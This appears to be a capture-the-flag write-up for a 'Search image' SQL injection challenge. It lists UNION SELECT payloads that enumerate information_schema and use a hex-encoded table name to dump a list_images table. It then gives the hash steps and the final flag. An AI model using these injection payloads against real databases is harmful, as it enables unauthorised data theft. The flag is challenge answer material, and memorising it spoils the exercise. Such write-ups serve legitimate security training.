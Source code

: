 # Search image SQL injection

`1 or 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`
There is a `list_images` table on the database as well

>list_images -> hex = 0x6c6973745f696d61676573

`1 or 1=1 UNION SELECT NULL,group_concat(column_name) FROM information_schema.columns where table_name = 0x6c6973745f696d61676573`

We get the tables used for images:
>id,url,title,comment

`1 or 1=1 UNION SELECT NULL,group_concat(id,url,title,0x0a,comment) from list_images`

One of the comments is 
>If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

>1928e8083cf461a51303633093573c46 MD5 decoded -> albatroz

>sha256 on albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

Flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
